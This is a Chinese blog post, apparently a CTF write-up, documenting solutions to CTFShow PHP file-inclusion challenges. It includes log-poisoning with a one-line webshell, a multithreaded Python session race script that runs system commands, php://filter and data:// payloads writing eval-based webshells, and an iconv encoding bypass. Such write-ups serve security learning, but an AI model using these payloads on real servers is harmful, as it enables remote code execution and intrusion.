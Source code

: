 ```yaml
---
title: CTFShow-文件包含
date: 2022-02-12 15:39:35
updated: 2022-02-12 15:39:35
tags: 文件包含
categories: CTFShow
toc: true
---
```


一些在CTFShow上有关文件包含的题目记录

<!-- more -->



基础知识详见：web基础漏洞

### web80-81

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

#### 法一：大小写绕过

![](https://s2.loli.net/2022/02/12/NrktI7eyaMLGd68.png)

#### 法二：日志文件包含

`?file=/var/log/nginx/access.log`，将要执行的代码放入user-agent里，可以是一句话木马，多发包几次

![](https://s2.loli.net/2022/02/12/e6bZiq8yu5jHJdh.png)

### web82-86

https://blog.csdn.net/weixin_45551083/article/details/110259089

通杀session竞争脚本

```python

# -*- coding: utf-8 -*-
# @author:lonmar
import io
import requests
import threading

sessID = 'flag'
url = 'http://7920d625-4983-43eb-9d4f-335e57303fd0.chall.ctf.show/'


def write(session):
    while event.isSet():
        f = io.BytesIO(b'a' * 1024 * 50)
        response = session.post(
            url,
            cookies={'PHPSESSID': sessID},
            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("cat *.php");?>'},
            files={'file': ('test.txt', f)}
        )


def read(session):
    while event.isSet():
        response = session.get(url + '?file=/tmp/sess_{}'.format(sessID))
        if 'test' in response.text:
            print(response.text)
            event.clear()
        else:
            print('[*]retrying...')


if __name__ == '__main__':
    event = threading.Event()
    event.set()
    with requests.session() as session:
        for i in range(1, 30):
            threading.Thread(target=write, args=(session,)).start()

        for i in range(1, 30):
            threading.Thread(target=read, args=(session,)).start()

```

### web87

参考大佬：

[file_put_content和死亡·杂糅代码之缘](https://xz.aliyun.com/t/8163)

[P神：谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)

[探索php://filter在实战当中的奇技淫巧](https://www.anquanke.com/post/id/202510)

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
}else{
    highlight_file(__FILE__);
}
```

绕过退出代码

#### 1. **base64编码绕过**

原理其实很简单，利用base64解码，将死亡代码解码成乱码，使得php引擎无法识别；

```php
$file=php://filter/write=convert.base64-decode/resource=shell.php
$content=<?php  eval($_REQUEST[1])?>
        =aaPD9waHAgIGV2YWwoJF9SRVFVRVNUWzFdKT8+
    注意要将+号进行url编码,通过空格等方式让base64编码后没有=号
payload:
$file=%2570%2568%2570%253a%252f%252f%2566%2569%256c%2574%2565%2572%252f%2577%2572%2569%2574%2565%253d%2563%256f%256e%2576%2565%2572%2574%252e%2562%2561%2573%2565%2536%2534%252d%2564%2565%2563%256f%2564%2565%252f%2572%2565%2573%256f%2575%2572%2563%2565%253d%2573%2568%2565%256c%256c%252e%2570%2568%2570
$content=abPD9waHAgIGV2YWwoJF9SRVFVRVNUWzFdKT8%2B
```

这里之所以将$content加了一个aa，是因为base64在解码的时候是将4个字节转化为3个字节，又因为死亡代码只有phpdie参与了解码，所以补上两位就可以完全转化；

注意此题有urldecode，所以可以对file进行编码从而绕过之前的过滤

#### 2. **rot13 编码绕过**

`<?php exit; ?>`在经过rot13编码后会变成`<?cuc rkvg; ?>`，在PHP不开启short_open_tag时，php不认识这个字符串，当然也就不会执行了：

```php
$file=php://filter/write=string.rot13/resource=shell.php
$content=<?cuc  riny($_ERDHRFG[1])?> //注意要到合适的加密网址，防止大小写变化
```

#### 3.strip_tags(php5有效)

我们观察一下，这个`<?php exit; ?>`实际上是什么？

实际上是一个XML标签，既然是XML标签，我们就可以利用strip_tags函数去除它，而php://filter刚好是支持这个方法的。

```php
$file=php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php
不过被弃用了
```

#### 4.组合使用

### web88

```php
<?php
$file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
```

可以发现`/ : ; ,`都没有过滤,使用data协议，记得构造编码后没有=和+（此题过滤了+)

`?file=data://text/plain;base64,PD9waHAgZXZhbCgkX0dFVFsxXSk7Pz5h` ==> `<?php eval($_GET[1]);?>a`

### web117编码过滤器

```php
<?php
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```

详情见上面参考链接

payload:

```
GET: ?file=php://filter/convert.iconv.ucs-2be.ucs-2le/resource=shell.php

POST: contents=?<hp pvela$(G_TE'['a)] ;>?
```

